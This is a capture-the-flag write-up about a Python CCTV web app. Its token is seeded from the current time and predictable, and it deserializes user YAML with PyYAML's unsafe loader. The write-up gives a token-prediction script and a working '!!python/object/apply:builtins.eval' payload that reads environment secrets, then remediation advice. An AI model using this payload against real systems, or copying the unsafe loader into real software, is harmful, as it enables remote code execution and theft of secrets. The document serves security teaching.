

## Description
This challenge revolves around a Python web application running a CCTV management program that renders a front-end template using configuration data parsed from a user-supplied YAML file. The application uses the `yaml.load()` function from the `PyYAML` library with the `yaml.Loader` loader, which according to [PyYAML's GitHub](https://github.com/yaml/pyyaml/blob/main/lib/yaml/loader.py), is the same as `yaml.UnsafeLoader`. These loaders are unsafe when used on untrusted input, which in the case of this challenge, coupled with a lack of input sanitisation, allows an attacker to execute arbitrary Python code during deserialization.

## Source Code Review
Analysing the source code is an effective way to identify vulnerable points, especially when dealing with serialization and deserialization functions. In this scenario, we are presented with a program that requires 2 user inputs, `YAML` and `TOKEN`. Submitting an invalid token results in an `Unauthorized (invalid token)` error:


### Code Analysis
The first step in uncovering the vulnerability is to examine how our input is being handled by the program. In this scenario, a Web Application Firewall URL-encodes the 2 user inputs before they reach the web server.

```python
def main():
    tokenRoot = genToken(int(time.time()) // 1)

    yamlConfig = unquote(USER_INPUT_A)
    tokenGuest = unquote(USER_INPUT_B)

    access = bool(tokenGuest == tokenRoot)

    firmware = None
    if access:
        try:
            data = yaml.load(yamlConfig, Loader=yaml.Loader)
            firmware = Firmware(**data["firmware"])
            firmware.update()
        except:
            pass
        
    print( template.render(access=access) )
```

In the `main()` function, our user inputs (denoted as `USER_INPUT_A` and `USER_INPUT_B`) are first decoded using the `unquote()` function, returning to their original form (our raw input). `USER_INPUT_B` is stored in the variable `tokenGuest`, which is used to check for equality against the `tokenRoot` variable. This value of the `tokenRoot` variable is returned from the `genToken()` function.

```python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
```

The `genToken()` function takes its argument and uses it as the seed in the `random.seed()` function. An important note to have is that using the same seed will generate the same "random" number.  If we analyse the argument that `genToken()` receives, it is the return value of the `time.time()` function but converted to an `int`. In other words, it is the current time but without considering values smaller than the current second such as milliseconds or nanoseconds. This hints to us that the value we supply for `USER_INPUT_B` will need to be generated from a similar function as `getToken()`, with the time seed matching that of the server's down to the seconds level.

```python
if access:
    try:
        data = yaml.load(yamlConfig, Loader=yaml.Loader)
        firmware = Firmware(**data["firmware"])
        firmware.update()
    except:
        pass
```

In the `main()` function, if we zoom into this code segment (which will be executed as long as we supply a correct token for `USER_INPUT_B`), we notice that the YAML data that we supply in `USER_INPUT_A` is being deserialized with the `yaml.Loader` loader. According to according to [PyYAML's GitHub](https://github.com/yaml/pyyaml/blob/main/lib/yaml/loader.py), this loader should rarely be used as it is unsafe, as commented in its source code:

```python
# UnsafeLoader is the same as Loader (which is and was always unsafe on
# untrusted input). Use of either Loader or UnsafeLoader should be rare, since
# FullLoad should be able to load almost all YAML safely. Loader is left intact
# to ensure backwards compatibility.
```

```python
class Firmware():
    def __init__(self, version:str):
        self.version = version
    
    def update(self):
        pass
```

The `Firmware` class consists of a property named `version` and a dud method `update()`. From the previous source code snippet, we can see that the loading of the YAML configuration and the instantiation of the `Firmware` class is wrapped in a try-except block, which tells us that even if we supply some input that the class' constructor does not expect, the program should still function.

Finally, we can note that the flag is being stored as an environment variable by looking at the setup code:

```python
os.environ["FLAG"] = flag
```

### Conclusions drawn from Code Analysis
As we have observed from the source code, `USER_INPUT_B` (the `tokenGuest` variable), should be identical to `tokenRoot`, meaning that the seed should be the timestamp when the `genToken()` function is called, down to the seconds level in terms of accuracy. We can generate the guest token using a function identical to `genToken()` ahead of time:

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

current_time = time.time()

for delta in [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]:
    token = genToken(int(time.time() + delta) // 1)
    print(f"Token (delta={delta}): {token}")
```

This script will return us the token for each second ahead of the time in which the script is invoked, up to 10 seconds:

```
Token (delta=1): 3571f3b758c657aa
Token (delta=2): 53e36b7315d40dcc
Token (delta=3): e075348dabf37ec9
Token (delta=4): aec4892f0c19a8f9
Token (delta=5): 9d3523a4cd24a6b5
Token (delta=6): 3a7dc8555c5b82d7
Token (delta=7): 5b71f3ed1afb143e
Token (delta=8): 5996d6722862b14b
Token (delta=9): 709a36350bacd2ce
Token (delta=10): bc39242b4053e0f8
```

In this challenge, I used the token with a delta of `10` which is the token that will be exactly valid 10 seconds after I run the script. We can test this script by copying the last token it prints, wait 10 seconds, and send it as `USER_INPUT_B` (`TOKEN`). As shown in the following image, we do not get the `Unauthorized (invalid token)` error anymore:


Now that the token issue is resolved, we need to figure out what to send for `USER_INPUT_A` (`YAML`). PyYAML allows for the execution of Python functions during object construction using the `!!python/object/apply` tag. This tag can be abused to call eval() with attacker-controlled arguments. In order for us to obtain our `FLAG` environment variable, we would typically pass something like this to `eval()`:

```python
__import__('builtins').print(__import__('os').environ['FLAG'])
```

As we are expected to supply YAML data, we can then wrap the payload as such:

```yaml
firmware: !!python/object/apply:builtins.eval
  - "__import__('builtins').print(__import__('os').environ['FLAG'])"
```

or equivalently as a one-liner:

```yaml
firmware: !!python/object/apply:builtins.eval ["__import__('builtins').print(__import__('os').environ['FLAG'])"]
```

Since the `eval()` call returns `None`, `data["firmware"]` is `None`, and thus `Firmware(**None)` will raise a `TypeError`. As mentioned previously, this is fine since the code is wrapped in a try-except block.

## Proof of Concept
Now that we know what YAML data to send and have a script to generate the token, all that is left is to run the aforementioned script and copy the last token that has a delta of 10 seconds, before submitting the request containing the YAML data alongside the copied token to the Dojo interface after exactly 10 seconds.


**PAYLOAD (YAML):** `firmware: !!python/object/apply:builtins.eval ["__import__('builtins').print(__import__('os').environ['FLAG'])"]`
**PAYLOAD (TOKEN):** `bc39242b4053e0f8` (output of the script in the previous section)
**FLAG:** `FLAG{M4lware_F1rmw4r3_N0t_F0und}`


## Risk
This vulnerability presents a serious risk as it allows an attacker to execute arbitrary Python code, achieving Remote Code Execution. The attacker is then capable of:
1. Reading files **(confidentiality compromised)**
2. Modifying files **(integrity compromised)**
3. Deleting Files / Crashing the server **(availability compromised)**

For example, we are able to leak the contents of /etc/passwd:



## Remediation
To remediate the vulnerability, the following pointers can be taken note of:
1. Never use `yaml.load()` with `yaml.Loader` on untrusted input.
2. Use `yaml.safe_load()` instead of `yaml.load()`, which only supports standard YAML types (might not be feasible for this CCTV management program). Alternatively, `yaml.FullLoader` may be used instead of `yaml.Loader`.
3. Apply input validation to ensure that the uploaded YAML data conforms to schema requirements.
4. Consider using cryptographically secure random values for token generation rather than `int(time.time())`, unless the current time-based method was intentionally designed for simplicity or other reasons.

